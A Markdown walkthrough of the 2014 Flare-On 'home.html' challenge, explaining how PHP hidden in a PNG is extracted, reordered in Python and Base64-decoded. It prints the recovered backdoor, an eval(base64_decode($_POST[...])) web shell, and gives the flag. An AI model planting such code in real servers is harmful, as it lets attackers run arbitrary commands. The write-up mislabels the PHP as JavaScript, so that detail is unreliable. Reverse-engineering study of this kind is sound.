 # Flare-On Challenge Walkthrough 2014: **`home.html`** Analysis

In this walkthrough, we’ll break down the process of analyzing the `home.html` file from the Flare-On challenge.  We will uncover the hidden content and extract the payload by utilizing Python scripts along with a hex editor.

## Table of Contents
- [Introduction](#introduction)
- [Step 1: Inspect `home.html` with Browser Developer Tools](#step-1-inspect-homehtml-with-browser-developer-tools)
- [Step 2: Examine `flare-on.png` for Embedded PHP Code](#step-2-examine-flare-onpng-for-embedded-php-code)
- [Step 3: Decode the PHP Code and Extract JavaScript](#step-3-decode-the-php-code-and-extract-javascript)
- [Step 4: The Flag](#step-4-the-flag)
- [References](#references)
---

## Introduction

In this challenge, the goal is to decode hidden content embedded in a PNG file via PHP code. The content is encoded in Base64 and contains escape sequences that must be resolved to reveal the final JavaScript code.

We'll walk through the steps of inspecting `home.html`, extracting PHP code from the `flare-on.png`, decoding Base64 strings, and decoding escape sequences to uncover the JavaScript payload.

---

## Step 1: Inspect `home.html` with Browser Developer Tools

![1 - Home Page](images/1-home-page.png)

1. **Open `home.html` in a browser**:
   - With developer tools enabled, open the `home.html` file.
   - Upon inspection, you'll notice that the HTML contains an image tag for `img/flare-on.png` and an embedded PHP script.
   - Specifically, you’ll see an unconventional PHP `include` statement inside a `<script>` tag, like this:

     ![2 - Inspected HTML](images/2-inspected-html.png)

2. **What this indicates**:
   - This suggests that PHP code might be embedded in the `flare-on.png` image file. We’ll need to analyze the image to extract the PHP code and proceed with further decoding.
   - The next step involves inspecting `flare-on.png` in a hex editor to extract the embedded PHP code.

---

## Step 2: Examine `flare-on.png` for Embedded PHP Code

1. **Open `flare-on.png` in a hex editor**:
   - We open `flare-on.png` using a hex editor. The goal here is to search for embedded PHP code.
   - Search for the string `<?php` to locate where the PHP code begins in the image.

2. **Extract the PHP code**:
   - The PHP code starts at offset `0x19c4` in the file.

     ![3 - PHP in Png](images/3-php-in-png.png)
     
   - Copy the PHP code from this offset and save it to a new file called `extracted_php.php`.

3. **PHP Code Breakdown**:
    - Contains an array `$terms` with 80 characters and another array `$order` that defines the order in which these characters will be rearranged to form a string.
    - Uses the `$order` array to shuffle characters from the `$terms` array to create a string. The result is stored in the `$do_me` variable, which will be executed later as part of the hidden payload.
      
      ![5 - Extracted PHP](images/5-extracted-php.png)
---

## Step 3: Decode the PHP Code and Extract JavaScript

1. **Python Conversion**:
   - After extracting the PHP code, we convert it into Python. The goal is to simulate the PHP array shuffling process and extract the resulting string (the `$do_me` variable).
   
   Here is a simplified breakdown of the Python script `converted_php.py`:
   
   ```python
   terms = ["..."]  # 80 characters from PHP code
   order = [...]  # Indices for the character order

   do_me = ''.join([terms[i] for i in order])
   print(do_me)
   ```

   The Python script prints the resulting value of `$do_me`, which contains a Base64-encoded JavaScript code.
   
      ![4 - Printed Do_me](images/4-printed-do-me.png)
   
3. **Base64 Decoding**:
   - We then use the Python script `convert_js.py` to decode the Base64-encoded JavaScript.
   - The process involves:
     - Decoding two Base64-encoded strings: one for `$_` and another for `$__`.
     - Combining both strings to form a partially obfuscated JavaScript code.

   The Python script also decodes hexadecimal (`\x4F`) and decimal (`\97`) escape sequences in the decoded code. This results in the following final JavaScript code:

   ```javascript
   if (isset($_POST["a11DOTthatDOTjava5crapATflareDASHonDOTcom"])) { 
       eval(base64_decode($_POST["a11DOTthatDOTjava5crapATflareDASHonDOTcom"])); 
   }
   eval(base64_decode($_));
   eval($code);
   ```

   This JavaScript contains functionality to execute Base64-decoded content received through a POST request, which is a typical web-based payload.

---

## Step 4: The Flag

The de-obfuscated JavaScript reveals an important action: it checks for a specific POST request and decodes its Base64 content. This can be used to trigger further actions on the server or extract sensitive information.

  - **Flag:**
    ```
    Original: a11DOTthatDOTjava5crapATflareDASHonDOTcom
    Readable: a11.that.java5crap@flare-on.com
    ```

---

## References
- **Hex Editor**: Allows you to see the raw binary content of a file, making it possible to find hidden data or scripts embedded within files.

- **Browser Developer Tools**: Provide an easy way to explore the structure and content of a web page.

- **Base64 Decoder**: Often used to obfuscate data, and decoding it reveals the original payload.

- **Escape Sequence Decoder**: The final step involved decoding hexadecimal and decimal escape sequences.
   - These sequences represent characters encoded in a way that obfuscates the code further, and resolving them makes the code readable and executable.
